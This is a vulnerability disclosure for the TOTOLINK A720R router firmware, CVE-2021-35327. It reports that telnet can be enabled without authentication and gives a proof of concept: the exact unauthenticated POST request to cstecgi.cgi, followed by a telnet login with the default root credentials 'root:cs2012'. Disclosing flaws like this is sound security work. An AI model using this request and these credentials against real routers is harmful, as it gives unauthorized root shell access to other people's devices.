

# TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A720R

Version:A720R_Firmware(V4.1.5cu.470_B20200911)

Type:Unsafe telnet settings

Author:Huizhao Wang, Chuan Qin

Institution:wanghuizhao@iie.ac.cn, qinchuan@iie.ac.cn

## Vulnerability description

We found a default telnet username and password and telnet service can be started without authorization vulnerability in TOTOLINK Technology router with firmware which was released recently, allows remote attackers to login shell by using default username and password.



Telnet service can be started without authorization, so attackers can start service first, and then log in with the default username and password.

## POC

First, send the following POST request to start telnet service without authorization.

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 48
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.101 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/telnet.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"telnet_enabled":"1","topicurl":"setTelnetCfg"}
```

Next, `telnet 192.168.0.1` enter the default username and password(root:cs2012) to log in to the shell.

## CVE info

CVE-2021-35327
